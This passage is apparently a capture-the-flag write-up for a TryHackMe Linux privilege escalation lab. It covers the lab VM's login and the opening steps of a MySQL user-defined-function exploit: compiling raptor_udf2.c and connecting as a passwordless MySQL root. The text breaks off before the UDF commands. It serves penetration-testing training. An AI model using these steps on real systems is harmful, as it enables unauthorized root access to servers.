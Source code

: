 # Linux PrevEsc


## Task 1: Deploy the Vulnerable Debian VM

* This room is aimed at walking you through a variety of Linux Privilege Escalation techniques. To do this, you must first deploy an intentionally vulnerable Debian VM. This VM was created by Sagi Shahar as part of his local privilege escalation workshop but has been updated by Tib3rius as part of his Linux Privilege Escalation for OSCP and Beyond! course on Udemy. Full explanations of the various techniques used in this room are available there, along with demos and tips for finding privilege escalations in Linux.

* Make sure you are connected to the TryHackMe VPN or using the in-browser Kali instance before trying to access the Debian VM!

* SSH should be available on port 22. You can login to the "user" account using the following command:

> ssh user@10.10.166.153

> If you see the following message: "Are you sure you want to continue connecting (yes/no)?" type yes and press Enter.

> The password for the "user" account is "password321".

* The next tasks will walk you through different privilege escalation techniques. After each technique, you should have a root shell. Remember to exit out of the shell and/or re-establish a session as the "user" account before starting the next task!

---

* Answer the questions below

* Deploy the machine and login to the "user" account using SSH.

```
No answer needed
```
* Run the "id" command. What is the result?

```
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```


## Task 2: Service Exploits

* The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

* Change into the /home/user/tools/mysql-udf directory:

```cd /home/user/tools/mysql-udf```

* Compile the raptor_udf2.c exploit code using the following commands:

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* Connect to the MySQL service as the root user with a blank password:

```mysql -u root```

* Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```
